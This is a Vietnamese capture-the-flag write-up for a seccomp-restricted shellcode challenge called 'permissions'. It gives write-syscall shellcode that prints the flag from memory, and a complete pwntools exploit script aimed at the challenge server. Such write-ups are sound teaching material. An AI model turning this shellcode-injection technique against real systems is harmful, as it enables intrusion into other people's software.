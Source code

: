 # permissions
## Phân tích
- Đại loại là chương trình sẽ thực thi shellcode của ta. Tuy nhiên có các seccomp
- Dùng `seccomp-tools` để kiểm tra các seccomp được dùng và không được dùng
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/e669d25c-cca3-448c-b32e-b93996c182f4)
- Khi dừng lại trước khi thực thi shellcode, ta để ý thanh `rax` có địa chỉ chứa flag
- Do vậy ta sẽ dùng `sys_write` để ghi nó ra màn hình [link về cách sử dụng syscall](https://tripoloski1337.github.io/ctf/2021/07/12/bypassing-seccomp-prctl.html)
```
mov rsi, rax
mov rax, 0x1
mov rdi, 0x1,
mov rdx, 0x100
syscall
```
- Mình dùng tool [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly2) để chuyển sang hex thay vì dùng asm() trong pwntool vì dùng asm() hơi lâu cho mỗi lần chạy
## Khai thác
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('amt.rs', 31174)
else:
        p = process(exe.path)


GDB()
payload = "\x48\x89\xC6\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05"
sla(b">", payload)
p.interactive()

```